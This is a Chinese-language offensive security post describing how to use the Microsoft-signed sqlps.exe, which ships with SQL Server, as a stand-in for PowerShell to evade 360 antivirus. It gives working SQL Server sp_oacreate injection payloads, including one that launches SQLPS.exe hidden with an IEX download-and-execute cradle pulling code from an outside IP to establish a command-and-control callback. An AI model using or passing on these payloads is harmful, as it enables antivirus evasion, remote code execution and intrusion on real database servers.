 ```yaml
---
title: sqlps替代powershell
tags: bypass
---
```


## 0x00 前言

sql server 默认安装后，会发现有一个 sqlps.exe：

![image-20220315190210816](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100806.png)

此文件本身自带微软签名：

![image-20220315190237951](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100808.png)

sqlps的功能，竟然是！启动 powershell？？？

![image-20220315190322987](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100810.png)

**而且由于此文件无依赖，因此可以单独取出在无sql server机器上运行**。

## 0x01 sqlps 上线

之前使用 powershell 上线，360 必拦截：

![image-20220315191524076](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100812.png)

使用sqlps，360无反应且能正常上线：

![image-20220315191648516](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100815.png)



![image-20220315191725621](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100818.png)

## 0x02 sp_oacreate

sql server 注入后提权的方法比较多，但是被杀软拦截的也比较厉害，xp_cmdshell会被拦，sp_oacreate也会被拦。

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:/windows/system32/cmd.exe'
```

![image-20220315192329929](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100820.png)

```
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'C:\Users\Public\SQLPS.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(''http://192.168.80.138:80/a''))"'
```

![image-20220315193426383](https://ryze-1258886299.cos.ap-beijing.myqcloud.com/20220329100823.png)

成功上线，弊端是 sql server 默认为service权限，因此对很多目录包括sql server 默认目录都无法执行该程序，因此要提前上传sqlps至C:\Users\Public目录。
